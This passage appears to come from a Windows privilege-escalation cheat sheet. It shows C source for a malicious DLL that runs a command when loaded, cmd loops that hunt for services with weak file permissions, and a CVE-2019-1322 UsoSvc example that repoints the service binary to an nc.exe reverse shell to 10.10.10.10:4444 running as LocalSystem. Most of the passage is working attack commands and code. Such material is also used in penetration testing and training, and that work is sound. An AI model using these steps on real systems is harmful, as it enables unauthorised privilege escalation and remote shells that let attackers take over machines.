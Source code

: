     # compile a malicious dll
    - For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
    - For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

    # content of windows_dll.c
    #include <windows.h>
    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```

- PATH directories with weak permissions
    ```powershell
    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
    $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

    $ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
    ```

Alternatively you can use the Metasploit exploit : `exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls`
> icacls (Windows Vista +)    
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or  `BUILTIN\Users:(W)`(Write-only access) in the output.

### Example with Windows 10 - CVE-2019-1322 UsoSvc

Prerequisite: Service account

```powershell
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```